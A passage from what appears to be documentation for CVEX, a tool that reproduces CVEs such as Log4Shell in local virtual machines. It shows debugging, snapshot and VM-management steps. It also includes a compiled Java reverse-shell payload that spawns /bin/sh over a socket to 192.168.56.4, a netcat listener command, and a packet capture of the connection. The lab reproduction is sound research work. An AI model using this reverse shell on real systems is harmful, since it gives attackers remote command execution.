SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Managing VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

